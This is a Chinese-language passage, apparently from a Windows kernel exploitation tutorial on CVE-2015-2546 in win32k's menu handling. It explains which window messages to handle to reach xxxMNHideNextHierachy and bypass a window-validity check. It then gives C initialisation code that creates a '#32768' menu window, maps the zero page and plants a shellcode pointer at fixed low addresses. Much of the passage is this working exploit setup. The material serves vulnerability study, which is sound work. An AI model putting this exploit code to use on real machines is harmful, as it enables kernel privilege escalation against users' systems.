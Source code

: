 根据上面的漏洞分析可以知道，要成功调用 xxxMNHideNextHierachy 函数触发漏洞，需要对 0x1E5，0x1EB 和 0x1F0 这三个消息进行处理。对于 0x1E5，只需要返回 0x10 就符合要求，而 0x1EB 需要返回一个合法的窗口对象来绕过 IsWindowBeingDestory 函数。因此，需要通过 CreateWindowsExA 创建一个类名为 "#32768" 的窗口对象，函数会返回一个合法的 tagMENUWND 的窗口对象，当处理 0x1EB 消息的时候，将该对象返回回去就可以绕过验证。因此，此时的初始化函数应当修改为如下所示：

```
BOOL Init_2015_2546()
{
    BOOL bRet = TRUE;
    LPACCEL lpAccel = NULL;
    DWORD  i = 0;
 
    // 创建窗口对象
    g_hWnd = CreateWindowExA(0,
                 "#32768",
                 NULL,
                 0,
                 -1, -1,
                 0, 0,
                 NULL,
                 NULL,
                 NULL,
                 NULL);
 
    if (!g_hWnd)
    {
        ShowError("CreateWindowExA #32768", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
    if (!SetWindowLongA(g_hWnd, GWL_WNDPROC, (ULONG)DefaultMenuProc_2015_2546))
    {
        ShowError("SetWindowLongA", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
    // 在0地址申请内存成功
    if (!AllocateZeroMemory())
    {
        bRet = FALSE;
        goto exit;
    }
 
    *(DWORD*)(0xD) = GetPtiCurrent_2015_2546();
    *(BYTE*)(0x1B) = (BYTE)4;
    *(DWORD*)(0x65) = (DWORD)ShellCode_2015_2546;
 
exit:
    return bRet;
}

```
